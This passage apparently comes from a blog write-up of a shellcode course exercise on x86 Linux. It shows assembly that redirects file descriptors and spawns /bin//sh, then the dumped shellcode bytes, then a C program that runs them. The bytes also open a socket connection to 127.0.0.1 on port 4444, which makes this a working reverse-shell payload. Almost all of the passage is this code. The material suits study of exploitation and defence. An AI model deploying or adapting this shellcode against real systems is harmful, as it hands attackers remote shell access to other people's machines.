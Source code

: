 	;
	; int dup2(int oldfd, int newfd);
	; 
	; dup2 is defined as #define __NR_dup2 63 in /usr/include/i386-linux-gnu/asm/unistd_32.h

	xor ecx, ecx
	mov cl,  2
	xor eax, eax

dup2:
	mov al, 0x3F	; 63 in decimal
	int 0x80	; duplicating file descriptors in backwards order; from 2 to 0
	dec ecx 
	jns dup2

	; Executing shell
	; 
	; int execve(const char *filename, char *const argv[], char *const envp[]);
	; execve() is defined as #define __NR_execve 11 on /usr/include/i386-linux-gnu/asm/unistd_32.h

	xor eax, eax
	push eax	; The NULL byte
	push 0x68732f2f ; "sh//". The second '\' is used to align our command into the stack
	push 0x6e69622f ; "nib/"
	mov ebx, esp	; EBX now points to "/bin//sh"
	
	xor ecx, ecx
	xor edx, edx
	mov al, 0xB	; 11 in decimal
	int 0x80

exit_on_error:
	mov bl, 0x1	
	xor eax, eax	; zero-ing EAX
	mov al, 0x1
	int 0x80

{% endhighlight %}

After having compiled the assembler source file with compile.sh script shell, I
used scdump.sh script to dump the shellcode.

{%highlight sh %}
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc3\xb8\x80\xff\xff\xfe\x83\xf0\xff\x50\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\xb2\x10\x31\xc0\x66\xb8\x6a\x01\xcd\x80\x85\xc0\x75\x24\x31\xc9\xb1\x02\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xb3\x01\x31\xc0\xb0\x01\xcd\x80"

{%endhighlight %}

I added this shellcode into the same C program used in the first assignment to
test our shellcode and I executed it in order to check the payload is correct.

{%highlight c%}
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc3\xb8\x80\xff\xff\xfe\x83\xf0\xff\x50\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\xb2\x10\x31\xc0\x66\xb8\x6a\x01\xcd\x80\x85\xc0\x75\x24\x31\xc9\xb1\x02\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xb3\x01\x31\xc0\xb0\x01\xcd\x80";

int main(int argc, char **argv)
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
{%endhighlight%}